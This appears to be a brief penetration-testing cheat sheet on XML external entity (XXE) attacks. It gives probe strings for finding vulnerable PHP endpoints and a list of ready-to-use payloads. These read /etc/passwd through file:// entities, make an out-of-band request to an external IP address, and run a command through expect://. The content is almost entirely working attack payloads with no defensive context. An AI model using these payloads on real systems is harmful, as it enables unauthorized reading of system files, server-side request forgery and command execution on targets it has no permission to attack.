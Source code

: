 # XXE

## Discovery
- Find ```xml``` in error of these payloads
  - ```.php?xml=>```
  - ```.php?xml=/>```

## Payloads
- ```<!DOCTYPE foo [<!Entity xxe SYSTEM "file:///etc/passwd">]> <foo>&xxe;</foo>```
- ```<!DOCTYPE data [<!ENTITY passwd SYSTEM "file:///etc/passwd">]> <data><text>&passwd;</text></data>```
- ```<!DOCTYPE data [<!ENTITY passwd SYSTEM "http://192.255.164.2:9000/helloworld">]> <data><text>&passwd;</text></data>```
- ```<!Entity xxe SYSTEM "expect://id">]>```
